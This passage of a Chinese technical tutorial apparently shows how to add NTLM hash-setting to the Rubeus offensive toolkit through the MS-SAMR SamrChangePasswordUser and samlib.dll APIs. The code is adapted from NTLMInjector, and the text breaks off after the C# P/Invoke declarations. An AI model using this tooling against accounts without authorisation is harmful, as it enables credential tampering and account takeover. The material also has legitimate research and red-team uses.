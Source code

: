 ## SamrChangePasswordUser

[MS-SAMR](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) 是 Windows 安全帐户管理器 (SAM) 远程协议，该协议支持包包含用户和组的账户存储和目录管理功能，使 IT 管理员和用户能够管理用户、组和计算机。

MS-SAMR API 中存在一个 `SamrChangePasswordUser()` 函数，可以在已知用户密码/哈希的情况下，为用户设置新的密码/哈希。

```c++
 long SamrChangePasswordUser(
   [in] SAMPR_HANDLE UserHandle,
   [in] unsigned char LmPresent,
   [in, unique] PENCRYPTED_LM_OWF_PASSWORD OldLmEncryptedWithNewLm,
   [in, unique] PENCRYPTED_LM_OWF_PASSWORD NewLmEncryptedWithOldLm,
   [in] unsigned char NtPresent,
   [in, unique] PENCRYPTED_NT_OWF_PASSWORD OldNtEncryptedWithNewNt,
   [in, unique] PENCRYPTED_NT_OWF_PASSWORD NewNtEncryptedWithOldNt,
   [in] unsigned char NtCrossEncryptionPresent,
   [in, unique] PENCRYPTED_NT_OWF_PASSWORD NewNtEncryptedWithNewLm,
   [in] unsigned char LmCrossEncryptionPresent,
   [in, unique] PENCRYPTED_LM_OWF_PASSWORD NewLmEncryptedWithNewNt
 );
```

samlib.dll 的导出函数为我们提供了完成该操作所需的函数，例如 `SamiChangePasswordUser()` 就对应`SamrChangePasswordUser()`，并且参数更加简化。这里我们直接参考 [Vincent Le Toux](https://github.com/vletoux) 编写的 [NTLMInjector](https://github.com/vletoux/NTLMInjector) 项目代码，需要用到其中的 [SetNTLMHash](https://github.com/vletoux/NTLMInjector/blob/master/SetNTLM.ps1#L89) 这个方法。

我们在 Rubeus\Rubeus\lib\ 目录下新创建一个 Samr.cs 类，将 SetNTLM 的 C# 代码简单修改后复制进去：

```c#
using System;
using System.Runtime.InteropServices;
using System.Security.Permissions;
using System.Security.Principal;
using System.ComponentModel;

namespace Rubeus
{
	public class Samr
	{
		[DllImport("samlib.dll")]
		static extern int SamConnect(ref UNICODE_STRING serverName, out IntPtr ServerHandle, int DesiredAccess, bool reserved);
		[DllImport("samlib.dll")]
		static extern int SamConnect(IntPtr server, out IntPtr ServerHandle, int DesiredAccess, bool reserved);
		[DllImport("samlib.dll")]
		static extern int SamCloseHandle(IntPtr SamHandle);
		[DllImport("samlib.dll")]
		static extern int SamOpenDomain(IntPtr ServerHandle, int DesiredAccess, byte[] DomainId, out IntPtr DomainHandle);

		[DllImport("samlib.dll")]
		static extern int SamOpenUser(IntPtr DomainHandle, int DesiredAccess, int UserId, out IntPtr UserHandle);
		[DllImport("samlib.dll")]
		static extern int SamiChangePasswordUser(IntPtr UserHandle, bool isOldLM, byte[] oldLM, byte[] newLM,
																	bool isNewNTLM, byte[] oldNTLM, byte[] newNTLM);
		[DllImport("advapi32.dll", CallingConvention = CallingConvention.StdCall)]
		private static extern uint SystemFunction007(ref UNICODE_STRING dataToHash, [In, MarshalAs(UnmanagedType.LPArray)] byte[] hash);

		public static byte[] NewNTLM { get; set; }
```